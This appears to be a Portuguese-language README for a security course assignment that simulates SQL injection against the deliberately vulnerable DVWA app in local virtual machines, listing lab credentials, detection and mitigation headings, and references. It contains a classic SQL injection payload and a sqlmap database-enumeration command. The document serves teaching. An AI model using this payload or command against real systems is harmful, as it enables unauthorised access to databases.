 # Injeção de SQL com DVWA

Trabalho Prático 2 - Segurança e Auditoria em Sistemas - Ataques a Sistemas Computacionais

## Objetivo

Simular um ataque de injeção de SQL em uma aplicação web vulnerável e identificar como detectar e mitigar a falha.

## Preparação do Ambiente

- qemu
- arch linux
- dvwa
- git
- php
- mariadb
- apache
- openssh

## Credencias das Máquinas Virtuais

`ssh -p 2022 seg@127.0.0.1`

`ssh -p 3022 seg@127.0.0.1`

usuário: `seg`
senha: `seg`

## Configuração do DVWA

`http://localhost:2080/dvwa`

usuário: `admin`

senha: `password`

## Execução do Ataque

`1' OR '1'='1' --`

`sqlmap -u "http://10.0.2.2:2080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xxxx" --dbs`

## Detecção e Auditoria

`/var/log/httpd`

## Mitigação da Falha

`High`

## Evidências e Documentação

## Referências

- [QEMU](https://wiki.archlinux.org/title/QEMU)
- [Apache HTTP Server](https://wiki.archlinux.org/title/Apache_HTTP_Server)
- [MariaDB](https://wiki.archlinux.org/title/MariaDB)
- [PHP](https://wiki.archlinux.org/title/PHP)
